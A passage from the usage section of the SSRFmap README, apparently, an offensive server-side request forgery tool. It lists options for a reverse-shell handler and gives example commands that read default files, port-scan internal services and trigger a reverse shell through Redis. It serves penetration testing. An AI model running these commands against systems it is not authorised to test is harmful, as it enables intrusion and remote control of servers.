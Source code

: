 ```sh
    -l HANDLER          Start an handler for a reverse shell
    -v [VERBOSE]        Enable verbosity
    --lhost LHOST       LHOST reverse shell
    --lport LPORT       LPORT reverse shell
    --uagent USERAGENT  User Agent to use
    --ssl [SSL]         Use HTTPS without verification
    --level [LEVEL]     Level of test to perform (1-5, default: 1)
```

#### Examples

First you need a request with a parameter to fuzz, Burp requests works well with SSRFmap. They should look like the following. More examples are available in the **/data** folder.

```http
POST /ssrf HTTP/1.1
Host: 127.0.0.1:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mysimple.ssrf/
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Connection: close
Upgrade-Insecure-Requests: 1

url=https%3A%2F%2Fwww.google.fr
```

Use the `-m` followed by module name (separated by a `,` if you want to launch several modules).

```sh
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan
```

If you need to have a custom user-agent use the `--uagent`. Some targets will use HTTPS, you can enable it with `--ssl`.

```sh
# Launch a portscan against an HTTPS endpoint using a custom user-agent
python ssrfmap.py -r data/request.txt -p url -m portscan --ssl --uagent "SSRFmapAgent"
```

Some modules allow you to create a connect back, you have to specify LHOST and LPORT. Also SSRFmap can listen for the incoming reverse shell.

```sh
# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```
